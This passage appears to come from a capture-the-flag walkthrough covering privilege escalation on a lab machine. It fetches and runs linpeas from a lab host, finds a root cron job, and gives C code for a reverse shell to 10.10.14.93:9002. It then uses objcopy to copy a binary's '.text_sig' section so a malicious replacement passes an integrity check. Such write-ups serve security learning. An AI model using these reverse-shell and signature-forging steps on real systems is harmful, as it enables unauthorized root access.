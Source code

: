 Let's run linpeas for privilege escalation vectors:

```bash
curl http://10.10.14.93:8000/linpeas.sh > linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Linpeas didn't reveal anything particularly useful for privilege escalation, so we need to do manual enumeration.

### Step 11: Process Monitoring

Using `watch` to monitor running processes:

```bash
watch -n 1 "ps aux --sort=start_time | tail -n 10"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756751923089/16414941-282d-4c1f-a8ed-7a4341741482.png align="center")

We discover a CRON job running `/root/initiate_`[`monitoring.sh`](http://monitoring.sh) that monitors `/opt/AV/periodic-checks/monitor` and checks its `.text_sig` section for integrity.

### Step 12: Binary Signature Manipulation

The key insight is that the monitoring system checks the `.text_sig` section of the binary. We can:

1. Create a malicious binary
    
2. Copy the original `.text_sig` section
    
3. Replace the monitored binary
    

**Exploit code:**

```c
#include <stdlib.h>
int main() {
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.93/9002 0>&1'");
    return 0;
}
```

**Exploitation steps:**

```bash
# Navigate to the monitoring directory
cd /opt/AV/periodic-checks

# Create our malicious code
nano virus.c

# Compile the malicious binary
gcc virus.c -o door

# Extract the original signature section
objcopy --dump-section .text_sig=text_sig /opt/AV/periodic-checks/monitor

# Add the signature to our malicious binary
objcopy --add-section .text_sig=text_sig door

# Replace the original binary
cp door monitor
```
